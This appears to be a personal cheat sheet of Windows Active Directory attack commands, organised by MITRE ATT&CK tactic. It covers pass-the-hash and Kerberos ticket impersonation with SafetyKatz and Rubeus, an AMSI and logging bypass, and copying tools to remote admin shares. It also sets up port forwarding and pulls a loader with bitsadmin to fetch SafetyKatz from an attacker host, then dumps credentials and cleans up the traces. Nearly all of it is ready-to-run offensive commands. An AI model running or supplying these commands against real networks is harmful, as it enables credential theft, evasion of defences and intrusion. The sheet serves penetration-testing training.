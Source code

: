 ## Objective

___

```ad-info
title:Objective 

- This note is used to generate a series of commonly used commands to facilitate certain techniques
```

___

## Commands

~~~ad-note
title: Defense Evasion TA0005 (Impersonation T1656)
*Performing PTH (aes256) with Loader + SafetyKatz*
___
```powershell
Loader.exe -path http://KALI/SafetyKatz.exe 
```

```powershell
sekurlsa::pth /user:null /domain:null /aes256:null /run:cmd.exe
```

Running InvisiShell
___
```powershell
C:\Windows\Tasks\InvisiShell\RunWithRegistryNonAdmin.bat 
```

Impersonation with Rubeus in current session
___
```powershell
Rubeus.exe asktgt /user:null /domain:null /aes256:null /ptt
```
~~~

~~~ad-note
title: Lateral Movement TA0008 (Lateral Tool Transfer T1570)
*Transfer tools* (only when strictly necessary)
___
*If target is a DC do not transfer AD-MODULE since it is already present*

```powershell
echo F | xcopy admodule-master\* \\null\c$\Windows\Tasks /E
```

```powershell
copy powerview.ps1 \\null\c$\Windows\Tasks
```

```powershell
xcopy C:\AD\Tools\InviShell\* \\null\c$\Windows\Tasks /E
```

```powershell
copy powertools.ps1 \\null\c$\Windows\Tasks
```

```powershell
copy QuickViewAD.ps1 \\null\c$\Windows\Tasks
```

```powershell
copy Loader.exe \\null\c$\Windows\Tasks
```

```powershell
copy Rubeus.exe \\null\c$\Windows\Tasks
```
~~~

~~~ad-note
title:Discovery TA0007 + Defense Evasion TA0005 (Impair Defenses T1562) 

*(AD Module + QuickViewAD.ps1)*

Start cmd session on remote machine, run InviShell (amsi + logging bypass)
___
```powershell
winrs -r:null cmd
```

```powershell
cd c:\windows\tasks
```

```powershell
RunWithRegistryNonAdmin.bat
```

Imports
___
```powershell
ipmo .\Microsoft.ActiveDirectory.Management.dll
```

```powershell
ipmo .\ActiveDirectory\ActiveDirectory.psd1
```

```powershell
ipmo .\powertools.ps1
```

```powershell
ipmo .\QuickViewAD.ps1
```

```powershell
invoke-allenum
```
~~~

~~~ad-note
title:Defense Evasion (TA0005) + Lateral Movement TA0008 (Lateral Tool Transfer T1570)

**Behavioural Detection Bypass**

*Port Forward Rule* on remote host

```powershell
winrs -r:null "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=null"
```

*Firewall Rule* on localhost

```powershell
# open port 80 using rule
netsh advfirewall firewall add rule name="Open TCP Port 80" dir=in action=allow protocol=TCP localport=80
```

**Toolkit Transfer**

*Loader Tool Transfer* to remote host

Method A

```powershell
# mount windows\tasks to local machine
net use x: \\null\c$\Windows\Tasks /user:null\null 'PASSWORD'
```

```powershell
echo f | xcopy .\Loader.exe x:\
```

Method B (copy without mounting)

```powershell
# or simply copy the binary without mounting
echo f | xcopy .\Loader.exe \\null\c$\users\public\desktop /Y
```

Method C (HTTP)

```powershell
winrs -r:null "bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Windows\\Tasks\\Loader.exe"
```
~~~

~~~ad-note
title:Credential Access TA0006 (OS Credential Dumping T1003)
> Host `SafetyKatz` binary using HFS/HTTP server

*Load SafetyKatz Binary* (run the loader pointing to localhost, leveraging port forwarding rule)

```powershell
winrs -r:null "c:\Windows\Tasks\Loader.exe -path http://127.0.0.1:8080/safetykatz.exe"
```

*Dump credentials* 

```powershell
sekurlsa::ekeys
```
```powershell
privilege::debug
```
```powershell
sekurlsa::logonpasswords
```
```powershell
token::elevate
```
```powershell
lsadump::sam
```
~~~

~~~ad-note
title:Cleanup

*Localhost Cleanup*

```powershell
netsh advfirewall firewall show rule status=enabled name="Open TCP Port 80"
```

```powershell
netsh advfirewall firewall delete rule name="Open TCP Port 80"
```

```powershell
net use x:\ /d
```

*Remote Host Cleanup*

```powershell
winrs -r:null "netsh interface portproxy show v4tov4"
```

```powershell
winrs -r:null "netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=0.0.0.0"
```
~~~